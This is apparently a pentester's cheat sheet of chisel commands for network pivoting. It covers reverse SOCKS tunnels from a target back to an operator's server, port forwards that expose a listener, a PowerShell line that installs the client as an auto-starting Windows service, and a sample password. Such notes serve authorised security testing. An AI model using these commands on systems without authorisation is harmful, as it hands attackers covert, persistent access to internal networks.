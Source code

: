 # chisel-reverse

% chisel

#plateform/linux  #target/remote  #cat/PIVOT 

## server
```bash
chisel server -v -p <chisel_port> --reverse --socks5 
```

## server (powershell)
probable unfiltered ports:
    https://learn.microsoft.com/en-us/troubleshoot/windows-server/networking/service-overview-and-network-port-requirements

```powershell
Start-Job -Name chisel-server -ScriptBlock { Start-Process chisel.exe -ArgumentList @('server', '-p', '<chisel_port>',  '--reverse' '--socks5')} 
```

## protected server
```
chisel server -v -p <chisel_port> --reverse --socks5 --auth '<chisel_login|jubeaz>:<chisel_password|Jub@z123!>'
```

## client
```bash
chisel client <chisel_server_ip>:<chisel_port> R:<socks_port>:socks
```

## client (protected server)
```
export AUTH='<chisel_login|jubeaz>:<chisel_password|Jub@z123!>' && chisel client <chisel_server_ip>:<chisel_port> R:<socks_port>:socks
```


## client (powershell)
```powershell
New-Service -name "<service_name|chisel-jubeaz-client>" -binaryPathName "<chisel_path|c:\temp\chisel.exe> client <chisel_server_ip>:<chisel_port> R:<socks_port>:socks" -displayName "<service_name|chisel-jubeaz-client>" -startupType Automatic | start-service
```


## client as a service (powershell)
```powershell
Start-Job -Name chisel-client -ScriptBlock { Start-Process chisel.exe -ArgumentList @('client','<chisel_server_ip>:<chisel_port>','R:<socks_port>:socks')}
```

## local port forwarding 

forward client port to server port (get the port of the client machine locally on serverside).

```
./chisel client -v <chisel_server_ip>:<chisel_port> R:<chisel_server_ip>:<chisel_server_f_port>:<chisel_client_ip|127.0.0.1>:<chisel_client_f_port>
```

## local port forwarding (protected server)
forward client port to server port (get the port of the client machine locally on serverside).

```
export AUTH='<chisel_login|jubeaz>:<chisel_password|Jub@z123!>' && chisel client -v <chisel_server_ip>:<chisel_port> R:<chisel_server_ip>:<chisel_server_f_port>:<chisel_client_ip|127.0.0.1>:<chisel_client_f_port>
```

## remote port forwarding
To expose server port remotely (useful to expose your listener)
probable unfiltered ports:
    https://learn.microsoft.com/en-us/troubleshoot/windows-server/networking/service-overview-and-network-port-requirements
    
forward {serverside-host}:{serverside-port} from the server to {clientside-host}:{clientside-port}
ex : 0.0.0.0:4445:127.0.0.1:4444 expose the server 4444 listener to client 4445
```
./chisel client -v <chisel_server_ip>:<chisel_port> <chisel_client_ip|0.0.0.0>:<chisel_client_f_port>:<chisel_server_ip>:<chisel_server_f_port>
```

## remote port forwarding (protected server)
To expose server port remotely (useful to expose your listener)
probable unfiltered ports:
    https://learn.microsoft.com/en-us/troubleshoot/windows-server/networking/service-overview-and-network-port-requirements
    
forward {serverside-host}:{serverside-port} from the server to {clientside-host}:{clientside-port}
ex : 0.0.0.0:4445:127.0.0.1:4444 expose the server 4444 listener to client 4445
```
export AUTH='<chisel_login|jubeaz>:<chisel_password|Jub@z123!>' && ./chisel client -v <chisel_server_ip>:<chisel_port> <chisel_client_ip|0.0.0.0>:<chisel_client_f_port>:<chisel_server_ip>:<chisel_server_f_port>
```


